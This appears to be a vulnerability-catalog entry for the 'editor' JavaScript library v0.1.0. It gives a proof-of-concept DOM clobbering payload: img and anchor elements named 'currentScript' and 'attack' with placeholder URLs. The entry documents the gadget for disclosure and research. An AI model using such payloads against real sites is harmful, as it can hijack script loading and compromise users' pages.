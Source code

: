 ## editor

### Meta

+ Library: editor
+ Version: v0.1.0
+ Stars: 2.8K
+ Fingerprint: N/A
+ Input: Type
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/lepture/editor
http://lab.lepture.com/editor/

### Vulnerable Code Snippet

N/A

### PoC 

```html
<!--Library-->
<link rel="stylesheet" href="//cdn.jsdelivr.net/editor/0.1.0/editor.css">
<script src="//cdn.jsdelivr.net/editor/0.1.0/editor.js"></script>
<script src="//cdn.jsdelivr.net/editor/0.1.0/marked.js"></script>
<textarea></textarea>
<script>
var editor = new Editor();
editor.render();
</script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Type the following rendered HTML elements to the editor and check the editor in the debugging console: `editor.codemirror.getValue();`.</p>
<!--Payload-->
```